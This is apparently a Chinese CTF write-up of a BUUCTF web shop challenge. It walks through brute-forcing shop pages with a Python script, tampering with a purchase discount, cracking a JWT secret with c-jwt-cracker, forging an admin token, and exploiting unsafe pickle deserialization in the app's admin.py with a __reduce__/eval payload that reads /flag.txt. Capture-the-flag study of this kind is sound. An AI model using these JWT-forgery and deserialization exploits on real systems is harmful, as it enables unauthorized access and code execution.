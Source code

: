 考察知识点：

1.python 脚本编写

2. jwt破解

3. 



1.提示需要冲到lv6

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/377E6D4797724192A3C72F971257F2FBclipboard.png)



2. 发现下一页可以一直点击，推测lv6在某一页

采用脚本爆破：

因为网页中的会员等级在网页中是等级对应的图片，所以爆破脚本只需要不断获取lv6.png即可

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/662F526C83D0477CB6296F114D974E16clipboard.png)

```javascript
import requests

url='http://0302ff1f-762a-4a95-8aad-32d665cf5b9f.node3.buuoj.cn/shop?page='

for i in range(0,500):
    r=requests.get(url+str(i))

    print(url+str(i))
    # print(r.text)
    if "lv6.png" in r.text:
        print(i)
        break
```



最终在181页发现lv6

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/6C9B9966ACB64C62B488EFD6D3124BBAclipboard.png)

3.购买会员，但是发现钱不够，抓包发现可以任意更改折扣



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/14AE3A5D5D2043E69784725B0A2F8AA3clipboard.png)

当折扣改的足够小时，会发生302跳转，



4. 跳转的302页面，显示只允许admin用户访问，所以此时思路就是伪造成admin用户



发现传输协议中使用了jwt，jwt是不安全的

https://zhuanlan.zhihu.com/p/71672282

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2A4574A1FBA34C129EF88E3AFCDD200Dclipboard.png)



5. 伪造jwt



5.1 安装jwt破解工具

```javascript
git clone https://github.com/brendan-rius/c-jwt-cracker
make
./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImgxMWJhMSJ9.dZLQ2sL0AKiPll8PmCVQ4ZXiMNXT9AxYtE3U1qhDR6Y
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/04F1AB806ADB4CD387AC8B6EEE922D93clipboard.png)



5.2 伪造成admin用户

https://jwt.io/

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/8CAD6703FAFB41CEBA55A5B1C924AA01clipboard.png)



6. 访问刚才的后台

发现网站的源码

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/AF13434ECD864B799C9C011C8E717DA5clipboard.png)



7. 下载到源码发现admin.py存在反序列化

```javascript
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```



8.构造exp

```javascript
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```



9. 抓包发送payload

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/720FB7F8333A494887F7CF9DDE6D1C70clipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/58E3D562260A47AEB35615F4445B9DA0clipboard.png)

